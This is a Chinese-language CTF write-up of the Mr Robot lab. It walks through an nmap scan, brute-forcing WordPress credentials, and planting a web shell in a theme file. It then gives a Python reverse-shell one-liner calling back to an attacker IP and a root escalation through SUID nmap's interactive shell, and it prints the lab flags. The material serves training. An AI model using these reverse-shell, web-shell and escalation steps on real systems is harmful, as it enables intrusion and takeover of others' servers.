

<span style="font-size: 40px; font-weight: bold;">Mr Robot CTF</span>

<div style="text-align: right;">

date: "2024-01-18"

</div>

# 1. 端口探测

标准的 web 站，只开放了 80 和 443

```shell
C:\Users\Users\Desktop
# nmap --reason -p- --min-rate 10000 10.10.52.213
Starting Nmap 7.93 ( https://nmap.org ) at 2024-01-18 13:28 中国标准时间
Nmap scan report for 10.10.52.213
Host is up, received syn-ack ttl 63 (0.22s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT    STATE  SERVICE REASON
22/tcp  closed ssh     reset ttl 63
80/tcp  open   http    syn-ack ttl 63
443/tcp open   https   syn-ack ttl 63

Nmap done: 1 IP address (1 host up) scanned in 18.73 seconds
```

# 2. flag1

## 2.1 robots.txt

访问 robots.txt 获取到 flag1 及一个近 86w 行字典



flag1

```shell
073403c8a58a1f80d943455fb30724b9
```

## 2.2 爆破目录

```shell
┌──(kali㉿kali)-[~/Desktop]
└─$ gobuster dir --url http://10.10.52.213/ -w 124.txt
===============================================================
Gobuster v4.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.52.213/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                124.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/4.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 235] [--> http://10.10.52.213/images/]
/css                  (Status: 301) [Size: 232] [--> http://10.10.52.213/css/]
/image                (Status: 301) [Size: 0] [--> http://10.10.52.213/image/]
/license              (Status: 200) [Size: 309]
/feed                 (Status: 301) [Size: 0] [--> http://10.10.52.213/feed/]
/video                (Status: 301) [Size: 234] [--> http://10.10.52.213/video/]
/audio                (Status: 301) [Size: 234] [--> http://10.10.52.213/audio/]
/admin                (Status: 301) [Size: 234] [--> http://10.10.52.213/admin/]
/blog                 (Status: 301) [Size: 233] [--> http://10.10.52.213/blog/]
/Image                (Status: 301) [Size: 0] [--> http://10.10.52.213/Image/]
```

访问http://10.10.52.213/license

```shell
what you do just pull code from Rapid9 or some s@#% since when did you become a script kitty?


你从Rapid9或其他网站上下载代码，你什么时候变成脚本猫了？
```

好好好被骂了，估计扫描目录应该没用了。

## 2.3 爆破账号密码

查看到网站的 cms 为 wordpress，默认后台登录为`wp-login.php`，任意输入密码发现存在错误回显，无当前用户名，拿着上面的字典去跑用户名及密码（很无语啊，密码放在字典最后边，85w 条字典）。

发现用户：

```shell
Elliot:ER28-0652
```

进入后台修改主题插入一句话木马


连接地址：`/wp-content/themes/twentyfifteen/content.php`

# 3. flag3

## 3.1 查看基本信息

查看当前用户及家目录

```shell
(daemon://opt/bitnami/apps/wordpress/htdocs/wp-content/themes/twentyfifteen) $ whoami
daemon
(daemon://opt/bitnami/apps/wordpress/htdocs/wp-content/themes/twentyfifteen) $ ls /home
robot
(daemon://opt/bitnami/apps/wordpress/htdocs/wp-content/themes/twentyfifteen) $ cd /home/robot
(daemon:/home/robot) $ ls -ll
total 8
-r-------- 1 robot robot 33 Nov 13  2015 key-2-of-4.txt
-rw-r--r-- 1 robot robot 39 Nov 13  2015 password.raw-md5
```

发现第二个 flag 了，可是权限不够，查看 password 文件

```shell
robot:c3fcd3d76192e4007dfb496cca67e13b

解密后为：abcdefghijklmnopqrstuvwxyz
```

注意此处就算没有解密出 robot 的密码也可以直接使用 nmap 提权，只要获取到了交互式的 shell：

```shell
</wordpress/htdocs/wp-content/themes/twentyfifteen$ /usr/local/bin/nmap -v
/usr/local/bin/nmap -v

Starting nmap 4.81 ( http://www.insecure.org/nmap/ ) at 2024-01-18 08:24 UTC
No target machines/networks specified!
QUITTING!

</wordpress/htdocs/wp-content/themes/twentyfifteen$ /usr/local/bin/nmap --interactive
<nt/themes/twentyfifteen$ /usr/local/bin/nmap --interactive

Starting nmap V. 4.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
# whoami
whoami
root
```

## 3.2 切换交互式 shell

反弹 shell，切换到交互式 shell

```shell
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.2.147",2333));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

python -c 'import pty;pty.spawn("/bin/bash")'
```

切换至 robot 用户并查看 flag

```shell
</wordpress/htdocs/wp-content/themes/twentyfifteen$ su robot
su robot
Password: abcdefghijklmnopqrstuvwxyz

robot@linux:~$ cat /home/robot/key-2-of-4.txt
cat /home/robot/key-2-of-4.txt
822c73956184f694993bede3eb39f959
```

## 3.3 注意

此处就算没有解密处 robot 的密码也可以直接使用 nmap 提权，只要获取到了交互式的 shell：

```shell
</wordpress/htdocs/wp-content/themes/twentyfifteen$ /usr/local/bin/nmap -v
/usr/local/bin/nmap -v

Starting nmap 4.81 ( http://www.insecure.org/nmap/ ) at 2024-01-18 08:24 UTC
No target machines/networks specified!
QUITTING!

</wordpress/htdocs/wp-content/themes/twentyfifteen$ /usr/local/bin/nmap --interactive
<nt/themes/twentyfifteen$ /usr/local/bin/nmap --interactive

Starting nmap V. 4.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
# whoami
whoami
root
```

# 4. flag3

## 4.1 提权

SUID 提权

```shell
robot@linux:~$ sudo -l
sudo -l
[sudo] password for robot: abcdefghijklmnopqrstuvwxyz

Sorry, user robot may not run sudo on linux.
robot@linux:~$ id
id
uid=1002(robot) gid=1002(robot) groups=1002(robot)
robot@linux:~$ find / -user root -perm -4000 -print 2>/dev/null
find / -user root -perm -4000 -print 2>/dev/null
/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/local/bin/nmap
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/pt_chown
robot@linux:~$ /usr/local/bin/nmap -v
/usr/local/bin/nmap -v

Starting nmap 4.81 ( http://www.insecure.org/nmap/ ) at 2024-01-18 08:08 UTC
No target machines/networks specified!
QUITTING!
robot@linux:~$ nmap --interactive
nmap --interactive

Starting nmap V. 4.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
# whoami
whoami
root
```

## 4.2 查看 flag3

```shell
# ls /root
ls /root
firstboot_done  key-3-of-4.txt

# cat /root/key-3-of-4.txt
cat /root/key-3-of-4.txt
04787ddef27c3dee1ee161b21670b4e4
```

# 5. 总结

2. 总体来说靶场难度一般，挺简单的，只不过这个密码爆破是真的搞
2. 发现 hydra 也可以爆破网站的账号密码
4. 打完复盘才发现 robot 用户不切换也可以直接使用 nmap 进行提权，之前没注意，走了一点弯路
